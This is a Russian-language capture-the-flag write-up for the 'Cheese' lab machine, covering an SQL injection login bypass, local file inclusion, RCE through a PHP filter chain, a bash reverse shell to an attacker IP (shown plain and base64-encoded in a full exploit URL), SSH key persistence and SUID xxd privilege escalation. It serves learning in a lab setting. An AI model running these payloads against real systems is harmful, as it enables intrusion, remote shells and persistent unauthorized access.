# Write-up: Cheese CTF (Web → LFI → RCE → PrivEsc)

> В прохождении IP несколько раз менялся (`10.146.182.49`, `10.145.184.151` и т.д.). В своих шагах подставляйте актуальный адрес цели.

## 1. SQL-инъекция на панели входа

На странице аутентификации пробовал разные варианты SQLi. В итоге сработал такой payload:

```sql
' || '1'='1' -- -
```



После этого попадаем на панель администратора:



## 2. LFI через параметр `file`

Панель позволяет выбирать файл по параметру, например:

```text
http://10.146.182.49/secret-script.php?file=supersecretadminpanel.html
```

Проверяем локальное включение файлов:

```text
http://10.146.182.49/secret-script.php?file=../../../../etc/passwd
```



Пробовал перебор путей через `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclist/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
  -u 'http://10.146.182.49/secret-script.php?file=FUZZ' -fs 0
```

Ничего интересного этот перебор не дал.

## 3. RCE через PHP filter chain

Дальше я не сразу понял, куда двигаться, и подсмотрел в чужом райтапе: там использовался скрипт для генерации цепочки PHP-фильтров, дающей RCE. Инструмент:

[https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)

Сначала генерируем цепочку для `phpinfo()`, чтобы убедиться, что PHP-код вообще исполняется:

```bash
python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
```




Затем генерируем цепочку для выполнения команд:

```bash
python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`?>'
```

К ссылке в начале добавляем параметр `?0=id&file=`:

```text
http://TARGET/secret-script.php?0=id&file=<сгенерированная_цепочка>
```

Получаем RCE:



## 4. Reverse shell

Готовим reverse shell:

```bash
/bin/bash -i >& /dev/tcp/192.168.192.16/4444 0>&1
```

Кодируем в base64:

```text
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTkyLjE2LzQ0NDQgMD4mMQo=
```

И передаём его через параметр `0`:

```bash
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTkyLjE2LzQ0NDQgMD4mMQo=|base64 -d| bash
```

Итоговый URL (с генерацией цепочки для `<?=`$_GET[0]`?>`):

```text
http://10.145.184.151/secret-script.php?0=echo%20L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTkyLjE2LzQ0NDQgMD4mMQo=|base64%20-d|%20bash&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|...|convert.base64-decode/resource=php://temp
```

На слушателе получаем шелл:




## 5. Закрепление через SSH

В `/home/` есть каталог с `authorized_keys`. Генерируем свой ключ:

```bash
ssh-keygen
```

И добавляем публичную часть в `authorized_keys`:

```bash
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTEAAAIDSbbGs8PgNCOBh4BC0Bjr8tJlqRVy8HZ3Fovc4ue roma@amor' >> authorized_keys
```



Теперь можно зайти по SSH.

## 6. PrivEsc: systemd-таймер и SUID `xxd`

Смотрим на юниты systemd:



`exploit.timer`:



В таймере не хватает секции `[Timer]` — дописываем её:



`exploit.service`:



По содержимому видно, что после срабатывания мы получим SUID-бинарь `xxd`.

Перезагружаем юниты:

```bash
sudo systemctl daemon-reload
sudo systemctl restart exploit.timer
```



После срабатывания используем технику из GTFOBins для SUID `xxd`, чтобы прочитать `root.txt`:


